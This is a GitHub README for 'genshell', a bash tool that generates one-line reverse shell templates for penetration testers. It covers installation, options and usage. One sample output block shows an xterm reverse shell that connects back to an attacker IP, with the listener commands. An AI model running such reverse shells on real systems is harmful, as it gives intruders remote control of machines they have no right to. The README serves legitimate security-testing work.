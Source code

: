 # genshell
## genshell: A bash copy-and-paste oneline reverse shell generator.

This project is deticated to ippsec. Thank you for releasing over one-hundred hours of phenomenal cybersecurity content. This script wouldn't exist if it weren't for you. (I Subscribed!!) Another thanks to pentestmonkey for dishing out the awesome shells!

<!--
*** LOGO !![vmplayer_bx33YLqLcn](https://user-images.githubusercontent.com/68730121/106347752-dc8c6a80-628e-11eb-91e9-3e2d510b2172.png)
![Banner](https://user-images.githubusercontent.com/68730121/106348443-58d57c80-6294-11eb-8aa0-b93806259f58.png)

-->
![vmplayer_0bpLvQBUgZ](https://user-images.githubusercontent.com/68730121/106348803-0184db80-6297-11eb-9146-6b86acea0595.png)




<!-- GETTING STARTED -->
## Installation
Multiple ways to install / use the script: 

1. Use the github repo  
   ```sh
   git clone https://github.com/djjoa/genshell.git
   cd genshell
   chmod +x gennshell
   ./genshell 
   ```
   
2. Grab the standalone script
   ```sh
   wget https://raw.githubusercontent.com/djjoa/genshell/main/genshell && chmod +x genshell && ./genshell
   #OR 
   curl https://raw.githubusercontent.com/djjoa/genshell/main/genshell -o genshell && chmod +x genshell && ./genshell
   ```
3. **Link the file to your path for native use with bash** (not necessary for the script to work) 
```sh
# Before
./genshell -h 

# After 
sudo ln -s /genshell_install_dir/genshell /usr/local/bin/genshell 
genshell -h
```
<!-- USAGE EXAMPLES -->
## Help

```sh
./genshell -h

genshell: The atomatic copy-and-paste oneline reverse shell generator. Just add args!

options:
-h|--help              Print this help menu
-b|--banner            Display the banner
-p|--port [INT]        Port you wish to cach your shell back on
-l|--LHOST [IP]        Supply TUN0 addr if not auto-parsed by the script (autoparse is set by default)
-t|--RHOST [IP]        Target IP (optional)
```
## Get Usage

```sh
./genshell -u
Usage: genshell [-h|--help] -p|--port [args] [-l|--LHOST [args]] [-t|--RHOST [args]] [-b|--banner]
```

# Running the script 

When run with no arguments, the script displays the banner, help information, and ippsec's shoutout. 

![vmplayer_HhJF2BiEUP](https://user-images.githubusercontent.com/68730121/106348709-2298fc80-6296-11eb-85c5-3502ec7fff5b.png)

# Generating Reverse Shell Templates 

To generate all reverse shell templates the `-p` or `--port` must be used. The script will attempt to automatically parse your `tun0` network adapter (assuming you are pentesting over a vpn). If it fails, the `-l` or `--LHOST` agument may be passed to manually specificy a listening network adapter. 

```sh
./genshell -p 4444
```
![vmplayer_0bpLvQBUgZ](https://user-images.githubusercontent.com/68730121/106348803-0184db80-6297-11eb-9146-6b86acea0595.png)

# Additional Arguments 
If the `-t` or `--RHOST` argument is passed the `xterm` reverse shell dialog will be displayed at the end of the script. 90% of the shell's don't require a RHOST paramter; they have been ommited by default. 
```sh
./genshell -p 4444 -l 1.1.1.1 -t 4.4.4.4
.... <snip> .... 
##################### XTERM ##################### 
The following command should be run on the server.  It will try to connect back 1.1.1.1 on TCP port 6001

xterm -display 1.1.1.1:1

To catch the incoming xterm, start an X-Server on attacker machine (:1 – which listens on TCP port 6001)

Xnest :1
xhost +4.4.4.4
```
# Usage Examples
* Generate shell templates on interface address `192.168.4.2` listening on port `4444`
```sh
./genshell --port 4444 --LHOST 192.168.4.2
./genshell  -p    4444  -l 192.168.4.2
```
* Generate shell templates with defualt `tun0` adapter listening on port 8181
```sh
./genshell --port 8181
./genshell -p 8181
```

<!-- CONTACT -->
## Contact

Enjoy the shellz! Never leave the terminal again to get exactly what you need to get the job done. 

Zer0 - [@x41x41x41x41](https://twitter.com/x41x41x41x41) - Discord Zer0#0272

Project Link: [https://github.com/djjoa/genshell](https://github.com/djjoa/genshell)



<!-- ACKNOWLEDGEMENTS -->
## Acknowledgements

* [ippsec](https://twitter.com/ippsec)
* [ippsec.rocks](https://ippsec.rocks/?#)
* [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)




<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->
[contributors-shield]: https://img.shields.io/github/contributors/djjoa/repo.svg?style=for-the-badge
[contributors-url]: https://github.com/djjoa/repo/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/djjoa/repo.svg?style=for-the-badge
[forks-url]: https://github.com/djjoa/repo/network/members
[stars-shield]: https://img.shields.io/github/stars/djjoa/repo.svg?style=for-the-badge
[stars-url]: https://github.com/djjoa/repo/stargazers
[issues-shield]: https://img.shields.io/github/issues/djjoa/repo.svg?style=for-the-badge
[issues-url]: https://github.com/djjoa/repo/issues
[license-shield]: https://img.shields.io/github/license/djjoa/repo.svg?style=for-the-badge
[license-url]: https://github.com/djjoa/repo/blob/master/LICENSE.txt
[linkedin-shield]: https://img.shields.io/badge/-LinkedIn-black.svg?style=for-the-badge&logo=linkedin&colorB=555
[linkedin-url]: https://linkedin.com/in/djjoa
